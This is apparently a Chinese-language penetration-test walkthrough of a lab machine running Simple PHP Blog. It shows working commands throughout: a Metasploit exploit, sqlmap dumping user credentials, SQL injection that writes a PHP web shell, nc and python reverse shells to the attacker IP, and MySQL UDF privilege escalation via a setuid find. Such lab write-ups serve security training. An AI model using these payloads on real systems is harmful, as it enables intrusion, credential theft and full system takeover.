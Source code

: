 
# 0X00 环境
**攻击机：10.10.10.1**<br />**靶机：10.10.10.100**


# 0X01 信息收集
使用[NMAP](https://www.yuque.com/xmtxsec/network_security/xm1y1f)进行端口扫描
```
nmap -sV -A 10.10.10.100 -p-
```
![image.png](./assets/1671430832355-88534d3f-f65a-407d-b038-358f32c1249f.png)

访问80端口，一个简约的网站，有登录和账户创建页面。
![image.png](./assets/1671431018300-48dbd04a-2029-4dfa-a52c-6b6c6c19c959.png)

目录扫描
![image.png](./assets/1671432446548-b50e2979-32ea-4d89-a0a6-17c0839bd075.png)

扫描出一个Blog页面[http://10.10.10.100/blog/](http://10.10.10.100/blog/)
![image.png](./assets/1671432507518-7000ca65-4a4c-4ff7-9619-d0ece0e4e382.png)

查看前端源码发现是Simple PHP Blog 0.4.0
![image.png](./assets/1671432541987-682533de-f3b9-4509-853f-22b3e3b3ff35.png)

# 0X02 漏洞发现 
搜索发现该版本存在漏洞
![image.png](./assets/1671432647062-9531b44f-8c85-4e29-8dda-167d25a12dd7.png)

 在80端口有个一个登陆页面，尝试是否存在SQL注入
![image.png](./assets/1671499968229-b1015d06-9057-467c-aebd-abb95f3ddb6b.png)
存在SQL注入
![image.png](./assets/1671499953731-72f54e02-77c3-4933-9649-1fb6f24206aa.png)


# 0X03 漏洞利用 
打开[Metasploit](https://www.yuque.com/xmtxsec/network_security/mc8ier)搜索Simple PHP Blog 0.4.0
```
search Simple PHP Blog 0.4.0
```
![image.png](./assets/1671432838672-c651817b-d0ee-4245-9e78-5c0535df6f01.png)

利用该漏洞模块，并设置参数
```
msf6 > use 0
msf6 exploit(unix/webapp/sphpblog_file_upload) > set RhOSTS 10.10.10.100
msf6 exploit(unix/webapp/sphpblog_file_upload) > set URI /blog
```
![image.png](./assets/1671433029469-cbb2eb2e-22ea-4c39-b730-07f225577b19.png) 

执行
```
msf6 exploit(unix/webapp/sphpblog_file_upload) > exploit
```
![image.png](./assets/1671433466851-62aeb0d0-3a8d-4c73-975e-f13e6aaf8bc8.png)

这里虽然创建了会话，但是并不能执行命令
![image.png](./assets/1671434163114-86f90593-748c-4242-9967-924a612e659c.png)

幸运的是这里给我们创建了凭据
![image.png](./assets/1671434213078-a7681ef4-75c2-48f9-90de-dea5c078fb2e.png)

尝试使用凭据登录，登陆失败
![image.png](./assets/1671499751906-9e2afaec-939b-4b63-bab0-15e5f3f163a1.png)

在前面我们还发现存在一个SQL注入漏洞，适用burpsuite抓包
![image.png](./assets/1671500207542-cd53155e-b8c1-42f2-8a06-9e749694f127.png)

将数据包保存到文件中使用[SQLMAP](https://www.yuque.com/xmtxsec/network_security/ky08tt)进行扫描
```
sqlmap -r sql.txt
```
![image.png](./assets/1671501577957-723a9dd5-8083-455f-9b6f-1060a1c7a86d.png)

爆库
```
sqlmap -r sql.txt --dbs
```
![image.png](./assets/1671501636072-9e119530-4b01-4146-8ff0-cdb8891d6344.png)

查看ch16数据库中的数据表
```
sqlmap -r sql.txt -D ch16 --tables
```
![image.png](./assets/1671501741459-07589780-b168-4bd4-9bba-95199af67f69.png)

查看user表
```
sqlmap -r sql.txt -D ch16 -T users --columns
```
![image.png](./assets/1671501895998-aeefb0cd-cb17-4fb6-93ee-bdc68af9f56b.png)

查看email和pass中的数据
```
sqlmap -r sql.txt -D ch16 -T users -C email,pass --dump
```
![image.png](./assets/1671502546010-eb551e28-0e22-4302-8143-e52d2b6b6b7b.png)

解密得到admin@isints.com/killerbeesareflying尝试登陆，并没有什么有用的信息
![image.png](./assets/1671503212695-0cd5605b-606a-41ad-b19a-19a8c0e8373a.png)

创建一个shell尝试使用SQLMAP写入shell
```
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.1 lport=666 -f raw -o shell.php
```
![image.png](./assets/1671503508972-29f4f6a5-c77a-4905-b7a5-6c96172fd3b5.png)

```
sqlmap -r sql.txt --batch  --file-write shell.php  --file-dest /var/www/shell.php
```
![image.png](./assets/1671504173557-0e3e6f88-5fd7-4816-9832-a96058b2678a.png)
写入失败

手工尝试，在上面的SQLMAP中我们可以得到SQL语句为
```
1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7171626a71,0x437465517663465354486c676f45466a42574e786f53694f544e4e754d47634a4261624f4a527676,0x71706b7871),NULL,NULL,NULL,NULL-- -
```

在其基础上进行修改，查看是否具有load_file权限
```
1' UNION ALL SELECT NULL,NULL,NULL,load_file('/etc/passwd'),NULL,NULL,NULL,NULL-- -
```
![image.png](./assets/1671504397590-8ffe83de-5ba8-4bc1-be38-82767e3f366b.png)

具有load_file权限，尝试写入木马
```
1' union select null,null,null,"<?php system($_GET['cmd']);?>",null,null,null,null into outfile '/var/www/shell.php'-- -
```
![image.png](./assets/1671504547296-59112fdb-2d50-4142-83c7-32ddd5abcea0.png)

尝试执行命令
```
http://10.10.10.100/shell.php?cmd=id
```
![image.png](./assets/1671504622022-3a37d9b4-a820-43ef-945f-4fa81e7e5fa8.png)

尝试使用NC反弹shell
```
http://10.10.10.100/shell.php?cmd=/bin/nc 10.10.10.1 4444 -e /bin/bash
```
![image.png](./assets/1671504835434-c477f257-b7a3-4c6a-bd8d-93acd3198cab.png)
失败

尝试python获取反向shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image.png](./assets/1671505423558-fcd444d5-3e98-433a-9a5c-7c24ec6e8f51.png)
成功


# 0X04 提权 
在/var/www/目录下找到一个文件为mysqli_connect.php里面记录了数据库的账号和密码
![image.png](./assets/1671505801049-99739b02-3e09-49d1-a8e7-5e376188167d.png)

但是登录失败
![image.png](./assets/1671505860631-b9018bc4-eaaa-4296-8d73-2c3b8eb9f3a0.png)

在/var目录下找到也有mysqli_connect.php
![image.png](./assets/1671505926373-d6c7d019-84ec-4fed-9a41-cf9e88fd810c.png)

再次尝试登录数据库，成功
![image.png](./assets/1671505976885-b51d2b19-950f-4f4c-a910-eea0bf031919.png)

在前面我们可以写入文件，这里可能可以使用UDF提权，UDF提权详情见[0X04 数据库内置函数研究](https://www.yuque.com/xmtxsec/network_security/anq3ng)
查看 secure_file_priv 的值

- 当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出文件，此时无法提权。
- 当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出文件只能发生在 /tmp/ 目录下，此时也无法提权。
- 当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出文件做限制，此时可提权。
```
show global variables like 'secure%';
```
![image.png](./assets/1671506224636-cfc28126-8a5a-476c-b900-38dd20f766d0.png)

查看mysql数据库plugin目录位置
```
show global variables like 'plugin%';
```
![image.png](./assets/1671507050759-2f8822b8-07e1-44fe-93bf-968a9ef97687.png)

查看mysql框架
```
show variables like '%compile%';
```
![image.png](./assets/1671506351133-8c7e65df-9f0f-4cb8-8289-2d7cb45d0b80.png)


将合适的UDF文件上传到plugin目录位置
```
cd /usr/share/metasploit-framework/data/exploits/mysql
python2 -m SimpleHTTPServer 6666
```
![image.png](./assets/1671506761742-085fba2b-cbdf-4701-ba37-70d8ec6c7ebe.png)

```
cd /usr/lib/mysql/plugin
wget http://10.10.10.1:6666/lib_mysqludf_sys_64.so
```
![image.png](./assets/1671507143761-e3fca2a9-303a-4b98-b8b5-65301bc710a3.png)

创建sys_eval函数
```
create function sys_eval returns string soname 'lib_mysqludf_sys_64.so';
```
![image.png](./assets/1671507835204-b1d98194-7999-4bfd-bf95-9403829f6ec9.png)

尝试执行系统命令
```
select sys_eval('whoami');
```
![image.png](./assets/1671507886216-c46e39ae-4c25-4eef-9c88-1892dc3cd729.png)
 <br />给find命令赋root的sid权限，并执行find命令，获得一个拥有sid root权限
```
select sys_eval('chmod u+s /usr/bin/find');
exit
touch test.txt
find test.txt -exec '/bin/sh' \;
```
![image.png](./assets/1671510150927-5f86720e-34fb-4a8b-bf77-ae47294cb848.png)
